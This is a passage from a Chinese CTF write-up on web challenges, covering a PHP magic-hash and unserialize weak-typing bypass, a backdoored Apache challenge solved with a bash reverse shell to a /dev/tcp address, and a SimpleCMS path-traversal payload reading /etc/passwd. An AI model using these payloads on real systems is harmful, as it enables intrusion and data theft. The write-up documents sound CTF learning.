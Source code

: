 源码泄漏：

```php
 $test=$_GET['userid']; $test=md5($test); 
   if($test != '0'){ 
      	$this->error('用户名有误,请阅读说明与帮助！'); 
   	}
$pwd =$this->_post("password");
$data_u = unserialize($pwd);
if($data_u['name'] == 'XX' && $data_u['pwd']=='XX')
    {
      print_r($flag);
    }
```

前者是md5成0e开头的字符串即可。后者利用布尔弱类型绕过。参考：http://www.cnblogs.com/ssooking/p/5877086.html

![5](http://momomoxiaoxi.com/img/post/EIS/5.png)

## Apache

Hacklu原题，队内大佬carry。

> 通过__libc_start_main劫持strlen函数来安装后门，满足条件的payload可以被system执行，最后首先发送一个正常的get请求，再发送/index.html?eqeqeqbnbnbnbnbkwkwkwkwhththththqeq=bash_-c_'bash_-i_>&_/dev/tcp/202.112.50.114/5555_0>&1'获得一个reverse shell,直接cat flag.txt即可。

URL 中需有 'dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp' or 'eqeqeqbnbnbnbnbkwkwkwkwhththththqeq'，后⾯面跟命令即可，其中下划线会被替换为空格。

## SimpleCMS

这题比赛的时候没做出来，应该是缓存的问题。以前没研究过，不是很懂。

信息：

1. 两个文件包含点：

   - ?page=../../../../../../../../etc/passwd 

     ```php
     <?php
         if (isset($_GET['page'])) {
             $page = $_GET['page'];
         } else {
             $page = 'a.php';
         }

         $path = './pages/' . $page;
         $path = realpath($path);

         if (is_file($path)) {
             include $path;
         } else {
             echo '<p>Page not found!</p>';
         }
     ```
